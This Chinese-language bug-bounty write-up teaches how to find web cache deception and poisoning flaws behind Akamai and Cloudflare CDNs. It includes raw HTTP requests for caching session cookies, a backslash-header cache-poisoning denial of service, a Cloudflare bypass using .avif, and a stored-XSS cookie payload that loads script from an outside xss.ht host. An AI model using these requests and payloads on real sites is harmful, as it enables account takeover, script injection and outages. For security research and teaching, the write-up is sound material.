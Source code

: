 

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。

[TOC]

## 前言
 本文以真实的案例来讲解如何发现cache相关的漏洞.

 
## 方法
>如果应用程序没有登录功能，但使用了Akamai CDN的服务，步骤如下:

发送第一个请求到Burp suite的`Repeater`:

![img_1.png](img_1.png)

检查服务器是否缓存正常的请求(你可以通过响应头`“server - timing: cdn-cache;desc=HIT”`来判断)

![img_2.png](img_2.png)

在请求中添加非法请求头 (注意:host下面一行的` \ `)

![img_3.png](img_3.png)

如果成功缓存了响应，那么当您在任何浏览器上打开URL时，应该会得到一个400 Bad Request,如下图所示:

![img_4.png](img_4.png)

>如果应用程序有登录功能:
 
- 创建一个帐户
- 检查一下在任何页面中是否有任何敏感信息被公开(例如会话或者令牌)

![img_5.png](img_5.png)

- 发送请求到`Repeater`
- 在URL的末尾添加一个能缓存的扩展名(`.js,.css`)，看看它是否给出了一个200 OK的响应 (注意看接口的末尾,多了`.js`,可以与第一张图进行对比)

![img_6.png](img_6.png)


使用经过验证的帐户打开修改后的URL

![img_7.png](img_7.png)

使用curl或Private Web Browser窗口打开相同的URL:

![img_8.png](img_8.png)

如果成功缓存了令牌，应该在响应中看到令牌

![img_9.png](img_9.png)


>如果应用程序使用Cloudflare CDN

非法请求头是行不通的，现在大多数Cloudflare客户都在使用缓存欺骗保护 (https://developers.cloudflare.com/cache/about/cache-deception-armor/)


我使用`.avif`文件能够绕过这个保护，这是一个真正未知的扩展名文件。

具体参考: `https://hackerone.com/reports/1391635`


也有一些网站没有使用这个保护，你可以尽情地测试缓存中毒/欺骗;



## 案例1.由缓存欺骗至账户接管→赏金:1500美元

### 思路
所有的cookie(甚至httponly)都在` https://host.com/app/conversation/1.js `中公开

如果一个经过身份验证的用户访问这个URL，他们所有的cookie都将存储在缓存中

然后攻击者就可以提取cookie并劫持他们的Session


>提示和技巧

在某些应用程序中，如果你在扩展之前添加一个分号(;)，可能会给你一个200 Ok的响应

比如:  `/xxxx/xxxxxx/;.js`

响应为:

```
HTTP/2 200 Ok

```


## 案例2:由缓存中毒提升至DoS→赏金:1000美元

### 思路

在Akamai CDN中，如果我们发送一个反斜杠`\ `作为报头，服务器将响应一个400坏请求响应

请求:

```
GET /products/xxx/xxxx/xxx/?test HTTP/2
Host: www.host.com
\: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
```

响应:

```
HTTP/2 400 Bad Request
Content-Type: text/html;charset=iso-8859-1
Content-Length: 70
Cache-Control: max-age=297
Expires: Thu, 21 Jul 2022 16:17:54 GMT
Date: Thu, 21 Jul 2022 16:12:57 GMT
Server-Timing: cdn-cache; desc=HIT
Server-Timing: edge; dur=32
Server-Timing: origin; dur=147
Strict-Transport-Security: max-age=86400
Ak-Uuid: 0.bc85d817.1658419977.1592c61

```
当站点使用缓存服务器时，这就会成为一个问题。网站通常只缓存javascript, css和其他文件，但当网站如`www.host.com`也缓存正常的响应，如

```
www.host.com/products/*

www.host.com/*

```
它会成为一个非常有影响力的bug。

- 提示和技巧


对于这个漏洞，Akamai有一个解决方案，通过让400响应在缓存中只持续5秒，然而，攻击者可以在burp中使用intruder模块发送null有效负载，这样相同的400响应就永远被缓存了


![img_10.png](img_10.png)


## 案例3:由缓存中毒到储存型XSS→赏金:1000美元

### 思路

有一个通过n_vis Cookie参数的XSS

由于服务器缓存了此响应，攻击者可以保存XSS有效负载

有一个强大的过滤器(和WAF)，可以阻止大多数有效负载，但由于该网站使用Jquery，攻击者可以使用`$.getScript`函数 。

请求:

```
GET /xxxx/xx-xx.otf?triagethiss HTTP/2
Host: www.host.com
Cookie: n_vis=xssx'*$.getScript`//593.xss.ht`//;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-xss,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers

```


响应:

```js

<script>
...
Visitor.id='xssx'*$.getScript`//593.xss.ht`//;
....
</script>


```

>提示和技巧

测试XSS上的任意请求头，`cookie`，自定义头，`x-forward-*`头


## 更多案例

![img_12.png](img_12.png)